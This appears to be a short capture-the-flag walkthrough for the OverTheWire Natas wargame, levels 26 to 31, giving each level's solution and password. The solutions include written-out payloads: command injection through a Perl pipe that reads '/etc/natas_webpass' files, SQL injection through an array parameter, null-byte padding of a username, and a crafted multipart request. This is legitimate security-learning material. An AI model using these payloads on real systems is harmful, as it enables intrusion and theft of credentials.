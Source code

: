 
	The_Next_Lvl_Password: u3RRffXjysjgwFU6b9xa23i6prmUsYne

________________________________________________________________
Natas_26 -> Natas_27

	Sollution: create a user using burpsuite natas28+64*(%00)+a -> login natas28 with new login

	The_Next_Lvl_Password: 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj

________________________________________________________________
Natas_27 -> Natas_28

	Solution: https://github.com/javiunzu/natas/blob/master/natas28.py
https://www.youtube.com/watch?v=oWmfYgCYmCc

	The_Next_Lvl_Password: 31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns

________________________________________________________________
Natas_28 -> Natas_29

	Solution: index.pl?file=|cat /etc/na?as_webpass/na?as30%00
	
	diff <(cat /etc/passwd) <(cat /e??/pas?wd) /there are the same/

	The_Next_Lvl_Password: WQhx1BvcmP9irs2MP9tRnLsNaDI76YrH


________________________________________________________________
Natas_29 -> Natas_30

	Solution: write py code to do request -> 
	session = requests.Session() 
	response = session.post(url, auth=auth, data={'username': 'natas31', 'password': ['"sqli" or 1', 4]})
	print(response.text)

	The_Next_Lvl_Password: m7bfjAHpJmSYgQWWeqRE2qVBuMiRNq0y

________________________________________________________________
Natas_30 -> Natas_31

	Solution: POST /index.pl?/etc/natas_webpass/natas32 -> modify request to this
	

```
------WebKitFormBoundarynP0gviBjU2V6cTOF

Content-Disposition: form-data; name="file"

ARGV

------WebKitFormBoundarynP0gviBjU2V6cTOF

Content-Disposition: form-data; name="file"; filename="a.csv"

Content-Type: text/csv

1,2,
3,4,

------WebKitFormBoundarynP0gviBjU2V6cTOF

Content-Disposition: form-data; name="submit"

Upload

------WebKitFormBoundarynP0gviBjU2V6cTOF--

```

